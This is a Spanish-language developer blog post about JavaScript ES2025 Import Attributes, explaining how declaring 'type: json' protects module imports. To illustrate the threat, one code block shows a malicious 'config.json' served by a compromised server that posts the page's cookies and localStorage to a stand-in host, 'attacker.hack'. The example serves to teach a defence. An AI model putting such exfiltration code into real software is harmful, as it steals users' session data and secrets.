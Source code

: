```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Una nueva forma de hacer que las importaciones de módulos sean más seguras.
date: 2024-11-22T21:33:25.684Z
update: 2025-09-12T13:03:04.439Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
---
```


<BaselineStatus id="json-modules" />

JavaScript incluyó **Import Attributes**, una característica que te permite declarar explícitamente qué tipo de módulo estás importando. Esta adición aporta mayor seguridad y claridad a las importaciones de módulos, especialmente para JSON y otros módulos que no son de JavaScript.

## El problema con las extensiones de archivo

Al importar módulos en la web, no podemos usar de forma fiable las extensiones de archivo para determinar el tipo de módulo. Un servidor podría enviar código JavaScript incluso cuando se solicita un archivo con extensión `.json`, lo que podría crear riesgos de seguridad:

```js title="main.js"
import config from "./config.json";
```

Lo que esperas recibir:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

Lo que un servidor comprometido podría enviar en su lugar:

```js title="config.json"
export default (function () {
  // Envía sus claves API a un atacante
  fetch("https://attacker.hack", {
    method: "POST",
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    accessToken: "secret-key",
    refreshToken: "secret-key",
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## La solución: Import Attributes

Los Import Attributes te permiten declarar explícitamente qué tipo de módulo esperas recibir, creando un contrato que los entornos de JavaScript deben hacer cumplir:

```diff title="main.js"
- // SIN Import Attributes - potencialmente inseguro
- import config from "./config.json";
+ // CON Import Attributes - importación segura de JSON
+ import config from "./config.json" with { type: "json" };
```

## ¿Dónde se pueden usar los Import Attributes?

La sintaxis funciona de manera consistente en diferentes escenarios de importación:

```js
// Importaciones regulares
import config from "./config.json" with { type: "json" };

// Importaciones dinámicas
const config = await import("./config.json", {
  with: { type: "json" }
});

// Re-exportaciones
export { apiKey } from "./config.json" with { type: "json" };

// Módulos JavaScript
import module from "./module.js" with { type: "javascript" };

// Web Workers
new Worker("worker.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

## Beneficios clave

- **Seguridad**: Al importar módulos JSON, el atributo `type: "json"` garantiza que recibirás datos JSON o un error, pero nunca código ejecutable.
- **Consistencia**: Proporciona una forma estándar de manejar diferentes tipos de módulos en todos los entornos de JavaScript.
- **Extensibilidad**: Aunque los módulos JSON son el primer caso de uso, la sintaxis está diseñada para admitir futuros tipos de módulos y atributos de metadatos adicionales.
- **Control de Caché**: Los *hosts* (entornos de ejecución) pueden usar los atributos como parte de su estrategia de caché de módulos, y el comportamiento es definido por cada entorno.

## Aplicaciones prácticas

- **Módulos JSON**: El caso de uso principal de los atributos de importación es cargar módulos JSON de forma fiable. Al especificar `type: "json"`, garantizas que el servidor entregue los datos como JSON y no como código potencialmente malicioso.
- **Importaciones dinámicas**: Los atributos de importación permiten usar importaciones dinámicas (`await import()`) y tener control sobre el tipo de módulo, lo que las hace más flexibles para diversos casos de uso.
